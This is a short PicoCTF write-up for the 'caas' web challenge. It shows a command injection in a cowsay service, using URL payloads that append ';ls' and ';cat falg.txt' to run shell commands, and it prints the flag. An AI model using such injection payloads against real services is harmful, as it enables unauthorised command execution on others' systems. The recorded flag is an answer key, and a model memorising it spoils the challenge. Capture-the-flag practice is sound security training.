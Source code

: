 # WriteUp PicoCTF

## caas - Web Exploition

### Statement

<img src="Images/caas.jpg" alt="challenge caas" width="400"/>

Link to that website [cass](https://caas.mars.picoctf.net/cowsay/message)

### Solution
With cowsay service, we have a linux commands vulnerability.
Try with this payload [https://caas.mars.picoctf.net/cowsay/message;ls](https://caas.mars.picoctf.net/cowsay/message;ls) and we have:

![](Images/caas1.png)

Here we see the falg.txt. Cat this file with the payload [https://caas.mars.picoctf.net/cowsay/message;ls;cat%20falg.txt](https://caas.mars.picoctf.net/cowsay/message;ls;cat%20falg.txt) and we have:

![](Images/caas2.png)

### Flag
>**picoCTF{moooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0o}**
